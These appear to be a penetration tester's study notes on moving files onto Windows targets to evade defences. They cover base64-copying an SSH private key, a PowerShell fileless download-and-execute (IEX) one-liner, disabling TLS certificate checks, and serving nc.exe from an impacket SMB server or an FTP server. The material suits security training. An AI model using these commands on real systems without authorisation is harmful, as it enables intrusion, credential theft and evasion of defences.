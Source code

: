 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
Sometimes to bypass defences and detection mechanisms, we need to use various methods (sometimes in-conjunction with one another) to transfer files to/from a target system.

## PowerShell Base64 Encode & Decode
- We can encode a payload as Base64, copy and paste it to the other system (eg. via a terminal), and decode it on the system
- Doesn't require any network communication to transfer the file (only shell connection)
- It is important to check the hash of the payload on both sides to ensure its transferred correctly (eg. MD5)
- *CMD is limited to 8191 characters, so this will not work for larger files*
### Example transferring an SSH key
1. Check hash of key : `md5sum id_rsa`
2. Encode key : `cat id_rsa | base64; echo`
3. Copy contents to target machine
4. Use PowerShell to decode : `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<b64_string>"))`
5. Confirm hash : `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`

## PowerShell Web Downloads
- Most companies allow *HTTP* and *HTTPS* traffic through the firewall.
- Web filtering could still prevent access to certain websites, or block certain file type downloads etc
- The [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over *HTTP* (80), *HTTPS* (443), or *FTP* (21). The methods can be seen below:

| Method                                                                                                                   | Description                                                                                                                |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |
```Powershell
# Download a file
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Location>')

# Fileless download (Doesn't write to disk, executes directly from memory using Invoke-Expression [IEX])
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX

# PowerShell 3.0+ can use Invoke-WebRequest (Alias: iwr, curl, wget)
Invoke-WebRequest '<Target File URL>' -OutFile '<Output File Location>'
# -UseBasicParsing can be used if there are IE engine problems

# If there is issues related to SSL/TLS certs not being trusted
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
[More Examples](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## SMB Downloads
SMB works on TCP port 445, and can be used to transfer files to a target system.

First we need to create an SMB server to host our payload (we can use Impacket's `smbserver`)
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

We can then copy the file to our target system
```cmd
copy \\<ip>\share\nc.exe
```
> Sometimes this will be blocked by modern windows systems as guest authentication is disabled. To fix this we can create an SMB server with a username and password.

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

On the target system, mount and then copy the file
```cmd
net use n: \\<ip>\share /user:test test
copy n:\nc.exe
```

## FTP Downloads
Another alternative is to use port 20/21 for FTP file downloads.

We can use `pyftpdlib` (a python ftp server library) to create an FTP server. By default it uses port *2121* so we can change this. It also has anonymous auth enabled by default too.
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```
